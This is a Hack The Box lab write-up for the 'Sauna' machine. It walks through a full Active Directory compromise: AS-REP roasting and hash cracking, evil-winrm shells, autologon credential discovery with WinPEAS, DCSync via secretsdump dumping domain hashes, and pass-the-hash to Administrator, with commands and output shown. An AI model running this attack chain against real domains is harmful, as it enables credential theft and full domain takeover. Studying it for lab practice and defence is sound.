


# Sauna - Easy

Target IP: **10.129.100.82**

## User Flag

Initial scan: ```sudo nmap -p- 10.129.100.82 -v```

Output shows a lot of ports open.

```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49669/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49690/tcp open  unknown
49715/tcp open  unknown
```

We can't enumerate SMB without credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ smbmap -H 10.129.100.82

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[!] Access denied on 10.129.100.82, no fun for you...                                                                        
[*] Closed 1 connections                                                                                                     
```

We can enumerate the base DN for the domain.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ ldapsearch -x -H ldap://10.129.100.82 -b "" -s base namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts 
#

#
dn:
namingContexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Looking on the website, there is an ```about.html``` page that lists the team members.



We can make a username list out of this and check if Kerberos pre-auth is disabled on their accounts.

Let's first save their names in a file, then generate potential usernames with ```username-anarchy```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~/username-anarchy]
└──╼ [★]$ ./username-anarchy -i sauna > sauna_users
```

We can now run ```GetNPUsers``` against this username list, and we do get a hash back for ```fsmith```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ impacket-GetNPUsers -dc-ip 10.129.100.82 -no-pass -usersfile sauna_users -request 'EGOTISTICAL-BANK.LOCAL/' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c5612f7ad327f842d57b20df476ad30e$bfc53793797c54124a3c73896cc4955cbeb7e81cdb6bec00c962767670220b40fbdaacdc7b13a13ee5404c7b49d6d5e47c8c10d6eede785b3943740b131e81c112fcf761ebc7b6ae7658ef914185b782a80fe4b27e124b917c63f2df0985fc2d2ed88490c9a17872ed99b01bff5d482ebac456512ac16a2a1b8d620f3f9fbc3b46332585e63b30b46afa70026d6506bbb820902f88a66cf79652b0f862e8ad536cb53b9539f4c8f0a0dd6fd7263e64a4797a18fa4c9ca9de538dda121f30491125b5bae777912c055ef98c012b047bef6fa05b91c2ac3a26d5a97445e5e346f686291e4630b4fda45427059f09ca5fd0049078f1eb905bd513259e0efd9535a3
```

Let's crack this with hashcat.

```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:c5612f7ad327f842d57b20df476ad30e$bfc53793797c54124a3c73896cc4955cbeb7e81cdb6bec00c962767670220b40fbdaacdc7b13a13ee5404c7b49d6d5e47c8c10d6eede785b3943740b131e81c112fcf761ebc7b6ae7658ef914185b782a80fe4b27e124b917c63f2df0985fc2d2ed88490c9a17872ed99b01bff5d482ebac456512ac16a2a1b8d620f3f9fbc3b46332585e63b30b46afa70026d6506bbb820902f88a66cf79652b0f862e8ad536cb53b9539f4c8f0a0dd6fd7263e64a4797a18fa4c9ca9de538dda121f30491125b5bae777912c055ef98c012b047bef6fa05b91c2ac3a26d5a97445e5e346f686291e4630b4fda45427059f09ca5fd0049078f1eb905bd513259e0efd9535a3:Thestrokes23
```

We can get a shell with ```evil-winrm```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ evil-winrm -i 10.129.100.82 -u fsmith -p Thestrokes23
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```

We can proceed to get the user flag from here.

## Root Flag

Let's use bloodhound.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ sudo bloodhound-python -u 'fsmith' -p 'Thestrokes23' -ns 10.129.100.82 -d egotistical-bank.local -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (SAUNA.EGOTISTICAL-BANK.LOCAL:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Testing resolved hostname connectivity dead:beef::4de:af21:281c:d405
INFO: Trying LDAP connection to dead:beef::4de:af21:281c:d405
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Testing resolved hostname connectivity dead:beef::4de:af21:281c:d405
INFO: Trying LDAP connection to dead:beef::4de:af21:281c:d405
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 02S
```

Looking at the analysis, there are two potential vectors.

First is that the computer account for the computer we are on has DCSync permissions in the domain. However, since we don't know the credentials for the computer account, this seems unlikely to be useful.

Secondly, there is another account, ```svc_loanmgr```, that also has DCSync permissions. However, there isn't a clear cut way for ```fsmith``` to get to this account. There must be some vulnerability that can give us access to this account.



Let's run WinPEAS on the remote machine.

```
*Evil-WinRM* PS C:\Users\FSmith> upload winPEASx64.exe C:\Users\FSmith\Documents\winpeas.exe
                                        
Info: Uploading /home/htb-mp-3199654/winPEASx64.exe to C:\Users\FSmith\Documents\winpeas.exe
                                        
Data: 13561172 bytes of 13561172 bytes copied
                                        
Info: Upload successful!
```

The output shows that autologon is enabled for ```svc_loanmanager```, and we see the account's cleartext password.

```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

Since this account has DCSync permissions, we should be able to run ```secretsdump``` to retrieve all the hashes for the accounts on the machine.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ secretsdump.py htb/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.100.82
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:7e4e3e63c01928a6dd6f0c4e92971858:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:d4a5cc68f18a60a4bb7f26e0f1adf4ef2440e0de6fc8673c9773d4a3d34263a5
SAUNA$:aes128-cts-hmac-sha1-96:5f097ecc995405c65b78618e8246678e
SAUNA$:des-cbc-md5:e04cf852df544f8a
[*] Cleaning up... 
```

We can now use the local Administrator's hash to get a shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-pv1ilxbucq]─[~]
└──╼ [★]$ evil-winrm -i 10.129.100.82 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
